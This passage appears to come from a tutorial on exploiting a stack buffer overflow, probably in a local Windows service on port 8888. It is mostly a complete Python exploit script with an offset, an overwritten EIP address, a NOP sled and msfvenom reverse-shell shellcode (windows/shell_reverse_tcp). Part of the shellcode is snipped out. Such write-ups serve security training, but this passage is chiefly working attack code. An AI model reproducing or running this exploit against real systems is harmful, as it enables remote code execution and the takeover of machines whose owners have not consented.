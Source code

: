 So we will add a variable 'nops' to the code.
```
nops = b"\x90" * 20
```
Now then, the complete code will be:

```python3
#!/usr/bin/python3

import socket, signal, sys

def def_handler(sig, frame):
    print("\n\n[!]Saliendo...\n")
    sys.exit(1)

#Ctrl + C
signal.signal(signal.SIGINT, def_handler)

#Global
ip_address = "127.0.0.1"
offset = 1052
before_EIP = b"A" * offset
EIP = b"\x7b\x8a\xa9\x68" # 0x68a98a7b
nops = b"\x90" * 20

shellcode = (b"\xda\xc4\xbf\xba\x41\x96\x88\xd9\x74\x24\xf4\x5d\x31\xc9" # msfvenom -p windows/shell_reverse_tcp LHOST=[IP] LPORT=[PORT] --platform windows -a x86 -b "\x00" -f c EXITFUNC=thread
b"\xb1\x52\x83\xed\xfc\x31\x7d\x13\x03\xc7\x52\x74\x7d\xcb"
b"\xbd\xfa\x7e\x33\x3e\x9b\xf7\xd6\x0f\x9b\x6c\x93\x20\x2b"
b"\xe6\xf1\xcc\xc0\xaa\xe1\x47\xa4\x62\x06\xef\x03\x55\x29"
b"\xf0\x38\xa5\x28\x72\x43\xfa\x8a\x4b\x8c\x0f\xcb\x8c\xf1"
b"\xe2\x99\x45\x7d\x50\x0d\xe1\xcb\x69\xa6\xb9\xda\xe9\x5b"
b"\x09\xdc\xd8\xca\x01\x87\xfa\xed\xc6\xb3\xb2\xf5\x0b\xf9"
.
.
<SNIP>

payload = before_EIP + EIP + nops + shellcode



def makeConnection(): 

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip_address, 8888))
    s.send(payload)


if __name__ == '__main__':

    makeConnection()
```